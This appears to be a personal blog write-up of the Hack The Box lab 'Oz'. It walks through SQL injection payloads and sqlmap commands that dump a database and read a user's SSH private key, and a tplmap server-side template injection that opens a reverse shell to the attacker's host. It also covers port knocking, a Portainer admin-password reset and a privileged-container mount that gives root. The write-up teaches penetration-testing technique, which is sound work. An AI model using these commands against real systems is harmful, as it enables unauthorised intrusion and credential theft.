 ```yaml
---
layout: post
title: Hack The Box - Oz
categories: hack-the-box
tags: [linux, web, sqli, ssti, ssh, pivoting]
description: My write-up for Oz from Hack The Box.
image: /hackthebox/oz/0.png
---
```


<hr>
## Quick Summary 
<br> Hey I'm back with another Hack The Box write-up , this time Oz has retired and it was rated as a hard box. I enjoyed this box , it was really fun. It had some docker tricks which were very cool , It's a linux box and it's ip is 10.10.10.96 so let's jump right in.
<br> Check out my [other Hack The Box write-ups](/categories) 
![](/images/hackthebox/oz/0.png)
<hr>
## Nmap
<br> As always we will start by running nmap to scan for open ports and services.
`nmap -sV -sT -o nmapinitial oz.htb`
<br> Note : I added the ip to my /etc/hosts file as oz.htb
![](/images/hackthebox/oz/1.png)
<br> And we see only http on port 80 and 8080. We also see that it's running a python server.
<br>
<hr>
## Enumerating http
<br> On port 80 there's a web page with the title "OZ Webapi" and it's asking us to register a username.
![](/images/hackthebox/oz/2.png)
<br> On port 8080 we see a login page.
![](/images/hackthebox/oz/3.png)
<br> If we tried running gobuster on port 80 to find hidden dirs and files we will get a wildcard response.
![](/images/hackthebox/oz/4.png)
<br> And that's because the server doesn't respond with 404. Instead of 404 , when we request a non-existing page the server responds with a line of random chars.
<br> Here I requested `http://oz.htb/anything`
![](/images/hackthebox/oz/5.png)
<br> And this makes it hard to enumerate because we will always get a 200 response. So what are we going to do is to use wfuzz to filter the responses for us.
`wfuzz -u http://oz.htb/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 0`
<br> This won't show us any response with 0 lines.
![](/images/hackthebox/oz/6.png)
<br> After a few seconds we get /users/
<br>
<hr>
## SQL Injection
<br> When we visit /users/ in the browser we get the default response : please register a username.
![](/images/hackthebox/oz/7.png)
<br> So we have /users/ which is a valid path , what happens if we tried a username that probably exists, something like admin ?
![](/images/hackthebox/oz/8.png)
<br> We get a json response `username : "admin"` 
<br> Let's try a single quote `'`
![](/images/hackthebox/oz/9.png)
<br> We get 500 Internal Server Error, So this endpoint is probably vulnerable to SQL injection , Let's try something else , `'OR 1 OR'`
![](/images/hackthebox/oz/10.png)
<br> We get another username : "dorthi" , So this is a confirmation that it's vulnerable to sqli , Let's do another injection and see if we can enumerate users 
`' or length(username)='4`
![](/images/hackthebox/oz/11.png)
<br> Another username : "toto"
<br> Let's try 7 
![](/images/hackthebox/oz/12.png)
<br> tin.man 
<br> So we confirmed it's sqli , The next step is to use sqlmap.
`sqlmap -u http://10.10.10.96/users/toto --all`
<br> This will dump the whole database
![](/images/hackthebox/oz/13.png)
<br> After some time it will start dumping tables and we will notice an interesting table `users_gbw`
![](/images/hackthebox/oz/14.png)
<br> So if we try to crack those hashes the only one that will crack is wizard.oz : `wizardofoz22`
<br> Now we have a username and its password let's login to port 8080
![](/images/hackthebox/oz/15.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/16.png)
<br> And success !
<br>
<hr>
## Dorthi's ssh key
<br> We login to something that looks like a ticketing system, After reading the tickets we will find 2 interesting tickets.
![](/images/hackthebox/oz/17.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/18.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/19.png)
<br> So this ssh key is on the database and we have sqli on that database , Let's grab it.
`sqlmap -u "http://10.10.10.96/users/toto" --string "username" --file-read "/home/dorthi/.ssh/id_rsa" -v1`
![](/images/hackthebox/oz/20.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/21.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/22.png)
<br> Cool so now we can ssh and own user, No wait ...
<br> By looking at the nmap scan again:
![](/images/hackthebox/oz/1.png)
<br> There's no ssh listening !
<br>
<hr>
## Server Side Template Injection
<br> If we return to that ticketing system we will see that we can add a ticket , it asks us for a name and a description.
![](/images/hackthebox/oz/23.png)
<br> By capturing that request in burp we will see a POST request with two parameters name and desc.
![](/images/hackthebox/oz/24.png)
<br> And the response outputs them.
![](/images/hackthebox/oz/25.png)
<br> If we used [tplmap](https://github.com/epinna/tplmap) (a tool like sqlmap for automatic template injection exploitation) we will find that it's vulnerable.
`python tplmap.py -u 'http://10.10.10.96:8080' -X POST -d 'name=*&desc=anything' -c 'token=TOKEN' --reverse-shell 10.10.xx.xx 1337`
![](/images/hackthebox/oz/26.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/27.png)
<br> Then we check our listener , we will get a reverse shell.
<br>
<hr>
## Knock , Knock
<br> After some enumeration we will find in `/` two unusual dirs `containers` and `.secret` , in `.secret` there is a file called `knockd.conf` 
![](/images/hackthebox/oz/28.png)
<br> That's a configuration file for ssh port knocking, Port knocking means that in order to connect to an ssh server you need to ping some ports in a specific sequence to be able to connect.
![](/images/hackthebox/oz/29.png)
<br> In our situation the ports are 40809 50212 46969 and all of them are udp
<br> In the other dir `containers` there's a dir called `database` which has some files, One of them is called `start.sh`
![](/images/hackthebox/oz/30.png)
<br> And we grabbed some passwords maybe we will need them later.
<br> Now we know the port sequence let's ssh into the box. We can use knockd to do that but I used a small script that uses nmap.
![](/images/hackthebox/oz/31.png)
<br> We `chmod 600` to the key then execute our script.
![](/images/hackthebox/oz/32.png)
<br> The key is protected with a password , Let's try the db password we found earlier : "N0Pl4c3L1keH0me"
![](/images/hackthebox/oz/33.png)
<br> And we owned user ! 
<br>
<hr>
## Portainer
<br> After some regular enumeration if we do sudo -l we will find that dorthi can run some commands as root `docker network ls` and `docker network inspect *`
![](/images/hackthebox/oz/34.png)
<br> Let's first list the networks 
`sudo docker network ls`
![](/images/hackthebox/oz/35.png)
<br> We see some networks let's inspect the first one `bridge`
`sudo docker network inspect bridge`
![](/images/hackthebox/oz/36.png)
<br> We find `portainer-1.11.1` and its ip is `172.17.0.2` , Portainer is the user interface for docker management and it usually runs http on port 9000 , we can also check that by using nmap. Luckily it's installed on the box.
![](/images/hackthebox/oz/37.png)
<br> And we see that port 9000 is listening , so now we need to set up an ssh port forwarding to be able to access that portainer.
<br> We can edit the ssh port knocking script to add the forwarding command.
![](/images/hackthebox/oz/38.png)
<br> Now when we visit localhost on port 9000 we get a login page.
![](/images/hackthebox/oz/39.png)
<br> By using the HTTP API as documented [here](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) we can re-assign the admin password by sending a POST request to `/api/users/admin/init` with data as : `{"username":"admin","password":"new-password"}`
<br> I did it with burp and set the password to `l0c4l` :
![](/images/hackthebox/oz/40.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/41.png)
<br>
<hr>
## Root
<br> After we login we will see the dashboard showing the status of the containers.
![](/images/hackthebox/oz/42.png)
<br> In the containers tab there are 4 container running.
![](/images/hackthebox/oz/43.png)
<br> If we check the container webapi we can use its console.
![](/images/hackthebox/oz/44.png)
<br> We can create a new container with the image of webapi and mount `/root` or the whole filesystem `/` then use the console to access it.
<br> First we will grab the image name from the images tab : "webapi:latest"
![](/images/hackthebox/oz/45.png)
<br> Then we will create a container and name it anything , I named it "NiceContainer" , add the image , then add a volume with path `/root` and mount it to /mnt/ 
![](/images/hackthebox/oz/46.png)
<br> Then from the security tab we choose privileged mode.
![](/images/hackthebox/oz/47.png)
<br> Click create , Use the console , `cd /mnt` and we own root ! :D
![](/images/hackthebox/oz/48.png)
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> previous Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
<br> Next Hack The Box write-up : [Hack The Box - SecNotes](/hack-the-box/secnotes/)
<hr>
